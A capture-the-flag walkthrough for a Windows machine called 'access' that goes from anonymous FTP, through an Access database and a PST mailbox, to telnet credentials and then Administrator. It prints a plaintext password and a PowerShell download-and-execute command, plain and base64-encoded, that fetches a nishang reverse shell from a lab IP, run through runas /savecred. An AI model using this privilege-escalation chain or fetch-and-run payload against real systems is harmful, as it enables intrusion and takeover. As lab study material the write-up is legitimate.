# access


## nmap

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


## ftp


- anonymous login is allowed
- logging in with ftp

- got two files ftp server one is a zip file 
- second file is microsoft access database file


## mdbtools

- its a kali repository used for filtering microsoft access database
- using we extracted the contents of mdb database
- we used mdb-tables and mdb-export

```
for i in `mdb-tables backup.mdb`; do mdb-export mdb-backup.mdb $i>$i;done
```



- we got different columns with the database with there contents
- one interesting table we found is auth_user




#### credentials



- got the credentials for zip file lets open it and read the contents


## pst

- we got a access control pst file
- but its a binary




- readpst will use to convert it to mbox file




#### credentials



- got credentials for security account

username             security

password              4Cc3ssC0ntr0ller


## security account


- there was telnet service running on port 23
- we can login in to that with the credentials


#### shell




**used nishang to get a better shell**




## post 


#### cmdkey

we used it to got saved credentials




- we can used these creds to run at administrator



we can use this to get the reverse shell


## root

- to get root shell we will use nishang
- we use runas command encoded with little endian format and pass it to powershell

```powershell
echo -n "iex(new-object net.webclient).downloadstring('http://10.10.14.13:8000/shell1.ps1')" | iconv --to-code=UTF-16LE| base64 -w0
```




- we will this encoded output to powershell and start the reverse listener
- we also need to host the file which will be executed by powershell

```powershell
runas /user:ACCESS\Administrator /savecred "powershell -encodedcommand aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAMwA6ADgAMAAwADAALwBzAGgAZQBsAGwAMQAuAHAAcwAxACcAKQA="
```







- we are administrator